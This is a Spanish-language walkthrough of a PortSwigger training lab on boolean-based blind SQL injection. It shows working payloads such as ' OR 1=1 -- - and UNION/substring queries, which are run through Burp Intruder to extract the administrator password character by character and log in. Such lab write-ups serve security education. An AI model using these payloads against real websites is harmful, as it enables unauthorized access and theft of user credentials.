# SQL Injection with Conditional Responses

## 📌 Lab Information

- **Lab:** SQL Injection with Conditional Responses
- **Categoría:** Blind SQL Injection
- **Técnica:** Boolean-Based SQLi

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

---

## 🎯 Objetivo

Explotar una vulnerabilidad Blind SQL Injection para obtener la contraseña del usuario `administrator`.

---

## 🔍 Interceptando la petición

Abrimos Burp Suite y activamos el proxy.



Enviamos la petición al módulo Repeater con:

```text
CTRL + R
```



---

## 🔍 Identificación de respuestas válidas

Cuando la condición es correcta, el servidor responde con:

```text
Welcome Back
```



---

## 🚀 Validación SQL Injection

Payload:

```sql
' OR 1=1 -- -
```

Debemos URL Encodear el payload utilizando:

```text
CTRL + U
```



---

## 🔍 Validando existencia del usuario administrator

```sql
' union select username from users where username='administrator' -- -
```



---

# 🚀 Enumeración del largo de la password

Payload:

```sql
' union select username from users where username='administrator' and length(password)=1 -- -
```

Enviamos la petición a Intruder:

```text
CTRL + I
```



---

## ⚙️ Configuración Intruder

Tipo de ataque:

```text
Sniper
```



---

## 🔍 Configuración payloads

- Tipo: Numbers
- From: 1
- To: 30



---

## 🔍 Grep Match

Agregamos:

```text
Welcome Back
```



---

## ✅ Resultado

La contraseña tiene:

```text
20 caracteres
```



---

# 🚀 Fuerza bruta carácter por carácter

Payload:

```sql
' union select username from users where username='administrator' and substring(password,1,1)='a' -- -
```

---

## ⚙️ Configuración Cluster Bomb

Tipo de ataque:

```text
Cluster Bomb
```



---

## 🔍 Payload posición

Payload 1:
- Numbers
- 1 → 20



---

## 🔍 Payload caracteres

Payload 2:
- Brute Forcer



---

## ✅ Enumeración



---

## 🔓 Acceso administrador



---

## ✅ Resultado

Se logró:
- Enumerar longitud
- Enumerar caracteres
- Extraer password
- Acceder como administrator
